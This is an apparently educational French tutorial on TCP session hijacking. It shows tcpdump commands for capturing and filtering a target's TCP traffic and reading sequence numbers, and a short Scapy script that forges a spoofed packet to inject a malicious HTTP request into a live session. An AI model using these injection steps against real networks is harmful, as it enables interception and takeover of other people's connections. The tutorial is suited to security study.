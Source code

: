 # 1. Présentation et Contexte d'Utilisation de tcpdump pour le TCP Session Hijacking

**tcpdump** est un outil en ligne de commande permettant de capturer et d'analyser les paquets réseau en temps réel. Il est souvent utilisé par les administrateurs réseau et les experts en cybersécurité pour surveiller le trafic, diagnostiquer les problèmes de connectivité et détecter des activités suspectes. Dans le cadre d'attaques, **tcpdump** peut être exploité pour effectuer un **TCP Session Hijacking**, une technique où un attaquant intercepte et prend le contrôle d'une session TCP légitime entre deux parties. Cette attaque permet à l'attaquant d'insérer ou de modifier des paquets, compromettant ainsi l'intégrité et la confidentialité de la communication.

# 2. Commandes Pertinentes pour le TCP Session Hijacking avec tcpdump

## 1. **Capture de Trafic TCP**

Pour capturer du trafic TCP spécifique, on peut utiliser la commande suivante :

```bash  
sudo tcpdump -i eth0 tcp  
```

Cela permet de capturer tous les paquets TCP transitant sur l'interface réseau `eth0`.

Si l'on veut capturer uniquement les paquets liés à une connexion spécifique (exemple : IP cible `192.168.1.100` et port `80`) :

```bash  
sudo tcpdump -i eth0 host 192.168.1.100 and port 80  
```

## 2. **Filtrage des Sessions Actives**

Pour suivre une session en cours et identifier les séquences de paquets :

```bash  
sudo tcpdump -i eth0 tcp and host 192.168.1.100 -X  
```

L'option `-X` permet d'afficher le contenu des paquets en format ASCII et hexadécimal, ce qui facilite l'analyse.

## 3. **Interception et Analyse des Séquences TCP**

Une attaque de TCP Session Hijacking repose sur la prédiction des numéros de séquence TCP. Pour observer ces numéros :

```bash  
sudo tcpdump -i eth0 'tcp[tcpflags] & (tcp-syn) != 0' -nn  
```

Cela permet d'analyser les séquences TCP lors de l'établissement de connexion.

## 4. **Injection de Paquets Malveillants**

Une fois les séquences identifiées, un attaquant peut utiliser un outil comme **Scapy** pour injecter des paquets et prendre le contrôle de la session :

```python  
from scapy.all import *

ip = IP(src="192.168.1.100", dst="192.168.1.200")  
tcp = TCP(sport=12345, dport=80, seq=1000, ack=2000, flags="PA")  
payload = "GET /malicious HTTP/1.1\r\nHost: victim.com\r\n\r\n"  
packet = ip/tcp/payload  
send(packet, verbose=1)  
```

Ce script simule une attaque en envoyant un faux paquet HTTP dans une session TCP légitime.

# Conclusion

Le **TCP Session Hijacking** est une attaque avancée exploitant les failles de gestion des sessions TCP. **tcpdump** permet d'observer et d'analyser ces sessions en profondeur. Il est important d'utiliser cet outil de manière légale et éthique, dans le cadre de tests de sécurité autorisés, afin de renforcer la protection des infrastructures réseau.
